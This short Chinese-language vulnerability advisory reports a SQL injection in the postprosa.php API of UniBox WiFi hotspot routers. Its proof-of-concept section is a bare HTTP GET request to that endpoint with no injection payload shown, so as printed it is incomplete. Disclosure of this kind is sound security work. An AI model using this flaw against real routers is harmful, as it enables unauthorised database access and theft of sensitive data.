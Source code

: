 # unibox路由器postprosa接口存在SQL注入

# 漏洞描述
Description: UniBox 是一款一体化网络/热点控制器，可以部署为管理公共 WiFi 热点的热点网关，也可以部署为办公室和企业的网络控制器。unibox路由器postprosa存在SQL注入漏洞，攻击者可以根据该漏洞获取数据库权限，查看大量敏感信息。
  
## poc

```javascript
GET /api/postprosa.php HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Cookie: http304ok=0; PHPSESSID=pvpehubud7epklbme9m4s69b0q;
Connection: close
```
